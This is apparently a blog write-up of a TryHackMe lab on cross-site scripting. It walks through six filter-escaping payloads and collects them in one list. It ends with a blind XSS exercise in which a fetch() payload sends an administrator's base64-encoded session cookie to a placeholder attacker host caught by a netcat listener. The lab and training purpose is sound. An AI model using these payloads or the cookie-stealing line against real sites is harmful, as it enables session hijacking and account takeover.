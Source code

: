 ```yaml
---
layout: single
title: "THM Exploits #3 Cross-Site Scripting"
---
```

#### TryHackMe Room: Jr Penetration Tester path: Web Application Hacking: XSS (Cross-Site Scripting) 

### Perfecting your Payload 

#### Level 1: Payload in input form 

In the first exercise, we see an input form that prompts to enter our name. Doing that, we get an error message, 'XSS Payload Failed'.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.40.37.png)                                                 


We can put in <script>alert('THM');</script> in the form: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.41.25.png)

Which will give us this pop-up.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.41.42.png)


Checking the page source, we can see the JavaScript code was successfully injected.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.46.35.png)

---
#### Level 2: Escaping input tag

This time, the form looks a bit different. Once inputting the name, it is reflected in the input tag. 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.47.20.png)

This can be confirmed by checking the page source.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.48.20.png)

The previous JS payload won't work in the input tag. Instead, we can use the following: 


">script>alert('THM');</script>


The `">` at the front will close the value parameter and then close the input tag. Closing the input tag will allow the payload to run.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.50.20.png)

The payload runs and we get the alert. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.51.46.png)

---
#### Level 3: Payload in textarea tag

At this stage, the name is reflected in the textarea tag. Again, this can be confirmed by viewing the page source.
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.54.23.png)

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.54.06.png)


We'll have to escape the textarea tag a little differently from level 2 by using the following payload: 


</textarea><script>alert('THM');</script>`


The `</textarea>` portion of the payload causes the textarea element to close so the script will run.
`
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.55.40.png)

Success!

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.56.21.png)

Check the page source to confim the changes.

---

#### Level 4: Escaping JS code

At this stage, the interface looks similar to level 1 but the page source reveals that the name is reflected in some JavaScript code. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.58.14.png)

You'll have to escape the existing JavaScript command with the following payload: 

`';alert('THM');//`

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

We get the alert, and the page source reveals our payload has been executed. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.01.10.png)

---

#### Level 5: Escaping filters

Level 5 looks similar to level 2 on the surface. However, executing  `<script>alert('THM');</script>` doesn't work. Let's look at the page source to figure out why.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.04.04.png)

The word 'script' has disappeared due to filters. Alternatively, we can use the following payload to escape these filters: 


<sscriptcript>alert('THM');</sscriptcript>


The word 'script' squeezed into the middle will be filtered out once, leaving the first 's' and the following 'script' to form and execute the payload. 

The resulting page source shows it worked: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.06.25.png)

---

#### Level 6: Escaping IMG tag
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.07.24.png)

Level 6 seems similar to level 2, where we had to escape from the value attribute of an input tag, so we can try `"><script>alert('THM');</script>` .
But that doesn't seem to work. Let's inspect the page source to see why. 
 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.10.27.png)

You can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the ==**onload event**==. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this:

```JavaScript
/images/cat.jpg" onload="alert('THM')
```

And then viewing the page source, and you'll see how this will work.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.13.53.png)
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.14.10.png)


---

#### All payloads from exercises

Original payload
<script>alert('THM');</script>

Escaping input tag
"><script>alert('THM');</script>

Escaping textarea tag
</textarea><script>alert('THM');</script> 

Escaping JS code
';alert('THM');//

Escaping filters
<sscriptcript>alert('THM');</sscriptcript>

Escaping img tag & using onload event
/images/cat.jpg" onload="alert('THM');

---

### Practical Example (Blind XSS) 

In this exercise, we are tasked to inject JavaScript code into the contents of an IT Support ticket. Once the administrator opens the ticket to view it, the code will execute and send their cookie session info back to us, revealing login information and allowing us to escalate privileges.

**1. Test stage**
So we've made a (fake) customer account on the Acme IT Support website. Under the 'Support Tickets' tab, we can create tickets. Here is a test run: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.32.47.png)

Because our input is shown in the textarea, let's see if we can escape this like we did in level 3 of 'Perfecting Your Payload'. We can use the payload `</textarea>test`. </textarea> wil help us escape the textarea tag. 
 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.32.30.png)

It worked. 
Now let's try this again to prompt an alert message. The payload is `</textarea><script>alert('THM');</script>.
`
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.35.17.png)


**2. The Attack** 

Now, let's try to steal the administrator's session cookies by injecting JavaScript code.
First, we're going to set up a callback. Let's open a Netcat server listening on port 9001 to receive the cookies. 

If we want to listen on port 8000, issue the command`nc -l -p 9001`.
- `-l`  indicates that we want to use Netcat in listen mode
- `-p`  is used to specify the port number.
- `-n` to avoid the resolution of hostnames via DNS,
- moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended.
- The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.35.53.png)![]

Now, let's inject our payload into the ticket. The payload we'll use is: 

```Javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
```

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.


![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2016.00.31.png)


Once submitted, the listening server will put out the stolen cookies. Shown below is that output and the base64 decoding of the cookie using the echo command.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.58.21.png)

---